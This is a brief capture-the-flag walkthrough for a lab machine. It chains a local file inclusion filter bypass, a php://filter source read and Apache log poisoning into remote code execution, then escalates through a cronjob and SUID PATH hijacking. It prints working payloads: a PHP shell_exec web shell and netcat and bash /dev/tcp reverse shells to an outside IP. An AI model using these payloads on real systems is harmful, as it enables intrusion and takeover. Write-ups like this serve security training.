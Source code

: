 nmap show open port 22,80
leak a virtual host mafialive.thm

bruteforce directory/looking at robots.txt reveal a test.php page

the page have a button that include a php via include
LFI exploittable, though it have a filter to ../.. and must include some path
Doubling the slash (//) bypass the first filter, and the second filter can be included in the lfi

First checking /etc/password via
`/var/www/html/development_testing//..//..//..//..//..//etc/password`

Then checking the test.php source via rot13 php filter
`php://filter/read=string.rot13/resource=/var/www/html/development_testing/test.php`

RCE via LFI can be achieved by poisoning the apache access log via the user agent.
`user-agent: <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`

and give reverse shell as cmd parameter:
`test.php?view=/var/www/html/development_testing//..//..//..//..//..//var//log//apache2//access.log&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.4.50.18+4182+>/tmp/f`
to get reverse shell

First horizontal privesc into archangel via a cronjob shell script, adding regular bash reverse script
`bash -i &> /dev/tcp/10.4.50.18/4182 0>&1`

Then escalating privilege to root by a root SUID executable that run a cp command.
make a cp file containing reverse shell bash script, then add the path into $PATH.
execute the SUID executable to get root.

